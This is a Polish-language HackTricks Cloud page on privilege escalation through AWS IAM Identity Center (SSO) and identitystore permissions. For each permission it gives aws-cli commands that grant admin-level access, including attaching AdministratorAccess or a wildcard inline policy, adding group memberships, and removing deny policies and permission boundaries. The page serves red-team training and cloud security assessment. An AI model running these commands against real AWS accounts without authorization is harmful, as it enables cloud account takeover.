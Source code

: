 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Aby uzyskać więcej informacji na temat AWS Identity Center / AWS SSO, sprawdź:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Zauważ, że **domyślnie** tylko **użytkownicy** z uprawnieniami **z** **Konta Zarządzającego** będą mogli uzyskać dostęp i **kontrolować IAM Identity Center**.\
Użytkownicy z innych kont mogą to zrobić tylko, jeśli konto jest **Delegowanym Administratorem.**\
[Sprawdź dokumentację, aby uzyskać więcej informacji.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Resetuj hasło~~

Łatwym sposobem na eskalację uprawnień w takich przypadkach byłoby posiadanie uprawnienia, które pozwala na resetowanie haseł użytkowników. Niestety, możliwe jest tylko wysłanie e-maila do użytkownika w celu zresetowania jego hasła, więc potrzebujesz dostępu do e-maila użytkownika.

### `identitystore:CreateGroupMembership`

Dzięki temu uprawnieniu możliwe jest dodanie użytkownika do grupy, aby mógł on dziedziczyć wszystkie uprawnienia, które ma grupa.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Napastnik z tym uprawnieniem mógłby przyznać dodatkowe uprawnienia do Zestawu Uprawnień, który jest przyznany użytkownikowi pod jego kontrolą

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Napastnik z tym uprawnieniem mógłby przyznać dodatkowe uprawnienia do Zestawu Uprawnień, który jest przyznany użytkownikowi pod jego kontrolą

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Napastnik z tymi uprawnieniami mógłby przyznać dodatkowe uprawnienia do Zestawu Uprawnień, który jest przyznany użytkownikowi pod jego kontrolą.

{% hint style="warning" %}
Aby nadużyć tych uprawnień w tym przypadku, musisz znać **nazwę zarządzanej przez klienta polityki, która znajduje się we WSZYSTKICH kontach**, które będą dotknięte.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Napastnik z tym uprawnieniem mógłby przypisać Zestaw Uprawnień użytkownikowi pod jego kontrolą do konta.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Zwraca krótkoterminowe poświadczenia STS dla podanej nazwy roli przypisanej do użytkownika.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Jednak potrzebujesz tokena dostępu, którego nie jestem pewien, jak uzyskać (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Atakujący z tym uprawnieniem może usunąć powiązanie między zarządzaną polityką AWS a określonym zestawem uprawnień. Możliwe jest przyznanie większych uprawnień poprzez **odłączenie zarządzanej polityki (polityka odmowy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Napastnik z tym uprawnieniem może usunąć powiązanie między polityką zarządzaną przez klienta a określonym zestawem uprawnień. Możliwe jest przyznanie większych uprawnień poprzez **odłączenie polityki zarządzanej (polityka odmowy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Napastnik z tym uprawnieniem może usunąć uprawnienia z polityki inline z zestawu uprawnień. Możliwe jest przyznanie **większych uprawnień poprzez odłączenie polityki inline (polityka odmowy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Napastnik z tym uprawnieniem może usunąć Granicę Uprawnień z zestawu uprawnień. Możliwe jest przyznanie **większych uprawnień poprzez usunięcie ograniczeń na Zestawie Uprawnień** nadanych przez Granicę Uprawnień.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
